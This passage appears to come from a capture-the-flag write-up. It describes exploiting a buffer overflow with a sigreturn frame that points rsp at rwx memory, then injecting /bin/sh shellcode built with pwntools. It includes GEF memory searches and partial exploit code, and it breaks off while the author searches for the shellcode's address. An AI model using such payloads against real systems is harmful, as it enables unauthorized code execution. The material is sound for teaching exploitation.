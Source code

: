 <pre class="language-python"><code class="lang-python"><strong>gef➤  grep 0x000000000040104f
</strong>[+] Searching '\x4f\x10\x40\x00\x00\x00\x00\x00' in memory
[+] In './binary'(0x400000-0x401000), permission=rwx
  0x400018 - 0x400038  →   "\x4f\x10\x40\x00\x00\x00\x00\x00[...]" 
[+] In './binary'(0x401000-0x402000), permission=rwx
  0x4010f0 - 0x401110  →   "\x4f\x10\x40\x00\x00\x00\x00\x00[...]" 
</code></pre>

This perfectly fits our needs. We set the rsp to one of these, and then the `ret` instruction will pop one value from it, jumping to the entrypoint, and restarting the program. We will also again be able to perform the buffer overflow again to regain control over the Instruction Pointer. The only difference is that now the start of the program (0x400000-0x410000) have rwx permissions, and the stack pointer is at 0x400018 if we choose the first address (this address is close to unmapped memory, so consider choosing the second address here).&#x20;

In this case, we can kill two **birds with one stone**. The stack pointer is now pointing to rwx memory, so any input we provide will be stored in that region! We also know the address of our input because we just set the rsp ourselves. Our plan from here on out will be:

1. Set the `rsp` to 0x400018 to let the program return back to the start of the program
2. When we reach the buffer overflow a second time, include shellcode in the input to write it to the stack (rwx memory now)
3. Finally, overwrite the return address as well to return to our just written shellcode

We can simply add the address to our sigreturn frame:

```renpy
frame.rsp = 0x400018                # pointer to a pointer to the entrypoint
```

This will restart the program from the entrypoint, and eventually end up at the buffer overflow again. Then we will put some shellcode in the input, writing it to the stack. In the end we need to jump to the start of our shellcode, but instead of calculating exactly where this will end up, we'll just write it and search for it later:

```renpy
SHELLCODE = asm(shellcraft.sh())  # Generate /bin/sh shellcode
rop = ROP(elf)

rop.call(0xdeadbeef)  # Replace later with shellcode address in rwx memory

payload = flat({
    OFFSET: [
        rop.chain(),  # Simulate the shellcode situation
        SHELLCODE
    ]
})
```

Running this payload in GDB, we can analyze exactly where the shellcode ends up. A simple way is to just `grep` for the hex values again:

```renpy
print(SHELLCODE.hex())  # 6a6848b82f62696e2f2f2f73504889e7687...
```

Then we step through the program in GDB, until it tries to `ret` to the `0xdeadbeef` address. This is the time where we would need the location of the shellcode, so let's look for it (searching the hex start, with big endianness):
